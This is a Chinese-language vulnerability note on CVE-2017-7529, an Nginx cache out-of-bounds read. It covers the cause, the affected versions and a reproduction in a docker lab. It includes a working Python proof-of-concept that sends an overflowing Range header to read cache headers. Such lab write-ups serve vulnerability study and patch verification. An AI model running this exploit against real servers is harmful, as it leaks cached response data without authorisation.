

# （CVE-2017-7529）Nginx 越界读取缓存漏洞

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BCVE%2BWindows-%EF%BC%88CVE-2017-7529%EF%BC%89Nginx%20%E8%B6%8A%E7%95%8C%E8%AF%BB%E5%8F%96%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E.md)

## 一、漏洞简介

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括"文件头"+"HTTP返回包头"+"HTTP返回包体"。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的"HTTP返回包体"返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

## 二、漏洞影响

- Nginx Nginx:1.13.2
- Nginx Nginx:1.13.1
- Nginx Nginx:1.13.0
- Nginx Nginx:1.11.13
- Nginx Nginx:1.11.12

## 三、复现过程

运行测试环境：

```bash
docker-compose up -d
```

访问`<http://www.0-sec.org:8080/>`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py <http://www.0-sec.org:8080/>`，读取返回结果


可见，越界读取到了位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
 print("%s url" % (sys.argv[0]))
 print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
 sys.exit()
headers = {
 'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
 n, 0x8000000000000000 - n)
r = requests.get(url, headers=headers)
print(r.text)
```

## 参考链接

> <https://vulhub.org/>#/environments/nginx/CVE-2017-7529/
